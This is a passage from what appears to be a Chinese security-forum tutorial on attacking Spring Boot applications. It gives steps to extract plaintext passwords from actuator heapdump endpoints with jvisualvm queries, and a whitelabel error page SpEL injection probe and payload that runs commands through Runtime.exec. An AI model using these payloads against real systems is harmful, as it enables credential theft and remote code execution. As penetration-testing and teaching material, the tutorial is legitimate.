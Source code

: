 我们经常关注的是`/env或/actuator/env`,`/refresh或/actuator/refresh`,`/jolokia或/actuator/jolokia`,`/trace或/actuator/httptrace`，能够获取明显的利用信息或触发rce漏洞。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-34b7a34442261ed46dbfbf0ca9d05cda6b0d0254.png)  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-319fa743d569feceec4e6ba58be5627fda0a8733.png)

1.3 获取明文密码
----------

利用条件：可以GET访问`/heapdump`或`/actuator/heapdump`。  
第一步：访问`/env`或`/actuator/env`，搜索`******`。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-0f599921bfec3ef259425d9a2477de77d79846ba.png)  
第二步：访问`/heapdump`或`/actuator/heapdump`，下载 JVM 堆信息。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-fa293c3d31bcd5022014d29e0bd2d4325b7869d3.png)  
第三步：使用`jvisualvm`查询密码。  
`jvisualvm`是Java版本在1.8及1.8版本以下自带的工具，在终端运行命令`jvisualvm`即可弹出使用界面。

```php
Spring boot 1.x版本：select s.value.toString() from java.util.Hashtable$Entry s where /password/.test(s.key.toString())
Spring boot 2.x版本：select s.value.toString() from java.util.LinkedHashMap$Entry s where /password/.test(s.key.toString())
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-76108a2fbf955536f36ea0c4e360c03fae2f71ab.png)  
还有多种获取明文密码的方法，请见第一个参考链接。

0x02 Spring 漏洞
==============

```php
漏洞环境：https://github.com/LandGrey/SpringBootVulExploit
```

2.1 whitelabel error page SpEL RCE
----------------------------------

### 2.1.1 影响版本

`spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0`

### 2.1.2 利用条件

- 至少知道一个触发 springboot 默认错误页面的接口及参数名.

### 2.1.3 利用步骤

1. 确定一个正常传参  
    比如发现访问 `/article?id=3` ，页面会返回`3`相关内容，说明参数正常。  
    ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-d1c803166053bf270c8ac6cac513f5f06d14d3e7.png)
2. 执行spl表达式  
    输入 `/article?id=${7*7}` ，如果发现报错页面将`7*7`计算出来显示`49`在报错页面上，那么可以确定目标存在 SpEL 表达式注入漏洞。  
    ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-46a7173df84578c4e7e92539c572145493135f9e.png)  
    用以下表达式可以执行`open -a Calculator`命令。 ```php
    ${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))}
    ```
    